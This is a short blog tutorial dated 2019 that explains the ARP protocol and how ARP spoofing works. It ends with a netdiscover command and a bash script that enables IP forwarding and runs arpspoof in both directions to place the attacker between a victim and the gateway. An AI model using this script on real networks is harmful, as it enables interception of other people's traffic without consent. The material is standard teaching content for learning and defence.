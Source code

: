 +++
title = "How to perform an ARP Spoof Attack"
description = "How to perform an ARP Spoof Attack"
date = "2019-02-28"
author = "Isac Cavalcante"
cover = "images/arpattack.png"
+++
# ARP Spoofing

ARP is a protocol from The TCP/IP model, which stands for Address Resolution Protocol, and the purpose of it is to translate IP address to MAC address and vice versa.

![tcpip](/images/tcpip.png)

Each host has an ARP table, with the entries of IP/MAC associations from the other known hosts in the localnetwork. to check the ARP table from your host, run:

```sh
arp -a
```

How ARP protocol works: 

![arp1](/images/arp1.png)

Client sends and ARP request in broadcast:

![arp2](/images/arp2.png)

Only the host which has that IP address replies to the client:

![arp3](/images/arp3.png)

In the ARP spoofing attack, the attacker tells that he is the gateway to the victim, and tells that he is the other host to the gateway, forwarding the packets between both of them.

![arpattack](/images/arpattack.png)

ARP spoofing is possible because:
- Client accept arbitraty responses
- Client does not verifies if the responses are authentic

# Performing an attack

Discover the network
```
netdiscover -r 10.0.0.0/24
```


```bash
#!/bin/bash
# arpspoof_attack.sh
# 

INTERFACE=eth0
MY_ADDRESS=10.0.0.3
VICTIM_ADDRESS=10.0.0.2
GATEWAY_ADDRESS=10.0.0.1

echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i $INTERFACE -t $VICTIM_ADDRESS $GATEWAY_ADDRESS &
arpspoof -i $INTERFACE -t $GATEWAY_ADDRESS $VICTIM_ADDRESS 
```




